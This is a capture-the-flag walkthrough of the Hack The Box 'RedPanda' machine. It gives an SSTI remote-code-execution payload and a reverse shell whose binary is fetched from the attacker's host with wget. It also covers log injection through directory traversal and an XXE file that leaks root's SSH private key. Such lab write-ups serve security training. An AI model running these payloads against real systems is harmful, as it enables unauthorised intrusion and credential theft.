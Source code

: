 # redpanda-htb-walkthrough
<h3> About the Lab:</h3>
This is a Linux machine that requires exploiting SSTI in a Java SpringFramework application via a search bar on the webpage for RCE and then initial access. For privilege escalation, we will need to emulate what group the user is in, discover a log file he/she has access to, use pspy to discover a JAR file root periodically run, study that JAR file to discover conditions required to pass, exploiting directory traversal, and generate an XXE XML file to leak root’s SSH private key. The privilege escalation for this machine is HARD and shouldn’t be an easy category machine. But let’s get started!

## User Own:
Connect VPN first: `sudo openvpn [your.ovpn file]`<br>
First thing first, run nmap scan on the RedPanda server: `nmap -sS -A -p- -T4 [machine-ip]`<br>
**From nmap Enumeration:**<br>
**port 22**: SSH service<br>
**port 8080**: Red Panda Search (powered by Spring Boot)

We run some other tools as well to gather as much information possible to find out existing vulnerability in the system:<br>
`dirb [url] [wordlist]`<br>
`curl -v [url]`

![image](https://user-images.githubusercontent.com/31168741/203845250-2f90a1ca-396f-4546-865d-623841800910.png)
![image](https://user-images.githubusercontent.com/31168741/203845289-5f991ccb-a71c-4c2f-bcca-2ee00a747d45.png)

From above, we find out it is built in Spring framework Java. We found 3 accessible directories as well. Browse the website manually and inspect each endpoint with Burp Suite. If no input is provided, the search endpoint returns:

![empty_input](https://user-images.githubusercontent.com/31168741/203846234-ac32fa99-1973-4490-bb19-b6b760866f3b.png)

The stats provides some statistics for 2 different authors:<br>
**woodenk**<br>
**damian**<br>
and an export function, which generates a report for each specific user.

![stats_author_woodenk](https://user-images.githubusercontent.com/31168741/203846805-89cb2072-f645-401e-a253-dcbcac02bbfd.png)

Other than that, we've tested for various injections (SQL Injection, XXE Injection) etc. and turns out there is an SSTI injection within the search function, but some characters are blacklisted.<br>

<h3>So what is an SSTI Injection?</h3>
A server-side template injection occurs when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side. For further information: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection<br>

A list of payloads that can be used for checking if the site is vulnerable to SSTI:

![Capture](https://user-images.githubusercontent.com/31168741/203847710-53ca4cb6-033e-440b-a85a-a952488b2f34.PNG)

4 of the payloads didn't work since some of the symbols are blacklisted by the server.

>**Error occured: banned characters**<br>

Oddly enough, the # (pound) symbol and * (star) have done the work and we can confirm the SSTI.

![ssti_confirmed](https://user-images.githubusercontent.com/31168741/203847928-026c15c3-ab62-415e-a887-7bc63588aabf.png)
![image](https://user-images.githubusercontent.com/31168741/203847951-a3bd0348-beee-42fe-98e0-7061a58dc19d.png)

Both mathematical operations 1+3+3+7 and 7+7 equals 14 we can tell that the payload got executed by the server, since we see the expected output.

<h3>SSTI into RCE:</h3>
The nmap scan reveals that the web application is powered by Spring Boot – so is it a Java application. Let's verify our payload by reading /etc/passwd. Use [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)'s Template Injection cheat sheet and find a suitable payload that bypasses the blacklist filter.<br>
Hint: The payload won't work, unless we change the $ (dollar sign) to an * (asterisk).<br>

`${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}`

![image-1](https://user-images.githubusercontent.com/31168741/204106233-2b022041-c1d7-4155-86ab-91b8e5f3eacc.png)

<h3>Reverse Shell</h3>
Note: pentest.ws (Helps to create a reverse shell)
The shell:<br>
msfvenom -p linux/x64/shell_reverse_tcp LHOST=[your-machine-ip] LPORT=1234 -f elf > rs.elf<br>
Start your HTTP server in the same location as r.elf the reverse shell to the target machine: python3 -m http.server 80. Now the payload we'll use here is: *{"".getClass().forName("java.lang.Runtime").getRuntime().exec("")}; as it is java based (collected from github). Now intercept the get request from searchbar and put the payload in the value section accordingly:<br>
To transfer the payload to the target machine:<br>
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget [your-machine-ip]/rs.elf")}<br>
To change the permission:<br>
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./rs.elf")}<br>
Now we execute but before that, do not forget to generate a listener:<br>
nc -lvnp 1234<br>
Execute: *{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./rs.elf")}<br>
Upgrading to the tty shell so that we can get a better view to follow: python3 -c 'import pty; pty.spawn("/bin/bash")'

![image](https://user-images.githubusercontent.com/31168741/204106736-02c77520-4e37-43a1-89ce-8383d18f52fc.png)

In the server yay! Pass for user Woodenk is found under the directory:<br>
>/home/woodenk<br>
>user.txt

## System Own:
<h3>Privilege Escalation</h3>
We run pspy64(snoop unpriviledged Linux processes) to observe. We notice a JAR file is being executed by root within a time interval.<br>
**woodenk@redpanda:/home/woodenk$** `cd /tmp`<br>
**woodenk@redpanda:/tmp$** `wget 10.10.16.9/pspy64` (Change the ip with your localhost)<br>
**woodenk@redpanda:/tmp$** `chmod +x ./pspy64`<br>
**woodenk@redpanda:/tmp$** `./pspy64`<br>

![image-25](https://user-images.githubusercontent.com/31168741/204232264-1a76f509-48c9-4f65-bdb2-23c479653fcd.png)

We host an HTTP server at port 8000 in **/opt/credit-score/LogParser/final/target/** and download the file. Opening the JAR file using **jd-gui**, it appears that **/opt/panda_search/redpanda.log** is being read in main().

![image-26](https://user-images.githubusercontent.com/31168741/204232850-b2bd1377-acd0-4ff0-881f-7aa4fbcac886.png)

According to the code, there are a few conditions to pass:<br>
•	The line must contain “.jpg” in the string<br>
•	split() will be done to the string where “||” is the delimiter.<br>
•	The string must be split into 4 strings:<br>
•	The first string must be a number.<br>
•	4th string must be pointing to an existing .jpg file.<br>
•	The .jpg file’s metadata tag “Artist” must have a value that matches to /credits/<author_name>_creds.xml.

<h3>Create a JPG file and add the author's name</h3>
• Since the current user does not have WRITE access to /credits, we set the “Artist” value to “../tmp/gg” where our XML exploit will be at /tmp/gg_credits.xml.
• JPG file should be in a folder where the current user has WRITE access. I used /tmp.
• Use ExifTool to add the Artist tag with the value “../tmp/gg”: `$exiftool -Artist="../tmp/gg" pe_exploit.jpg`

![image](https://user-images.githubusercontent.com/31168741/204234748-65bf3ada-8707-4045-a606-67e107200337.png)

<h3>Create an XML file</h3>
•	We create an XML file following the structure of existing XML file on the victim’s machine.

![image](https://user-images.githubusercontent.com/31168741/204234971-ce3ad4c7-8022-4468-8b28-0330e23ae26a.png)

•	We transfer both files in the target machine and modify the log file:<br>
**woodenk@redpanda:/tmp$** `wget 10.10.16.9/pe_exploit.jpg -P /tmp`<br>
**woodenk@redpanda:/tmp$** `wget 10.10.16.9/gg_creds.xml -P /tmp`<br>
**woodenk@redpanda:/tmp$** `echo "222||a||a||/../../../../../../tmp/pe_exploit.jpg" > /opt/panda_search/redpanda.log`<br>

•	Wait for a few minutes and read gg_creds.xml. We should see foo’s value is now replaced with root’s private key.

![image](https://user-images.githubusercontent.com/31168741/204235403-b8dbb2cd-3139-48ca-9a85-741a5985cc45.png)

•	Store the private key in root.txt and change its permission before SSH into the victim’s machine as root using the private key.<br>
`$ chmod 600 ./root.txt`<br>
`$ ssh root@10.10.11.170 -i root.txt`<br>

![image](https://user-images.githubusercontent.com/31168741/204235635-2fcbc084-29d1-4951-a171-b43fce2d3698.png)

•	We find root flag in root.txt.

![image](https://user-images.githubusercontent.com/31168741/204235760-36a7593a-f1a1-4b53-95d4-fa6f7c778d88.png)

Solved!






